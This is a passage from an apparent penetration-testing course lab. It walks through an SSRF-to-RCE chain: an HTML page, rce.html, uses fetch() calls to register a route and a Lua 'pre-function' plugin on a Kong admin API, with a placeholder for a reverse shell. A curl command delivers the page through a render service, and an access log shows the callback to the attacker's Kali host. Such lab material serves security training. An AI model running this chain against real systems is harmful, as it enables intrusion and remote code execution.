 function createRoute() {
    fetch("http://172.16.16.2:8001/services/supersecret/routes", { 
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({"paths": ["/supersecret"]})
    }).then(function (plugin) {
      createPlugin();
    });  
}

function createPlugin() {
    fetch("http://172.16.16.2:8001/services/supersecret/plugins", { 
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({"name":"pre-function", "config" :{ "access" :[  REVERSE SHELL HERE ]}})
    }).then(function (callback) {
      fetch("http://192.168.118.3/callback?setupComplete");
    });  
}
</script>
</head>
<body onload='createService()'>
<div></div>
</body>
</html>
Listing 62 - Contents of rce.html

In the code listing above, we use three sections to clarify the code and simplify updates. The page's onload event calls the createService() function, which sends a POST request to create a new service named "supersecret". The function then calls createRoute(). This function adds the /supersecret route to the new service. It then calls createPlugin(), which adds our Lua payload as a plugin on the service. Finally, it makes a GET request to our Kali host.

To make debugging our attack easier, we could use fetch() to send the response of each call to Kong back to our Kali host.

Once this page is in our webroot, we can use curl to send it to the Render service.

kali@kali:~$ curl -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.16.5:9000/api/render?url=http://192.168.118.3/rce.html"}' http://apigateway:8000/files/import

{"errors":[{"message":"You don't have permission to access this.","extensions":{"code":"FORBIDDEN"}}]}
Listing 63 - Delivering the RCE payload

If everything worked, we should have a "setupComplete" entry in our access.log file.

kali@kali:~$ sudo tail /var/log/apache2/access.log
...
192.168.120.135 - - [25/Feb/2021:13:46:16 -0500] "GET /rce.html HTTP/1.1" 200 872 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
192.168.120.135 - - [25/Feb/2021:13:46:16 -0500] "GET /callback?setupComplete HTTP/1.1" 404 491 "http://192.168.118.3/rce.html" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
Listing 64 - Checking for setupComplete callback
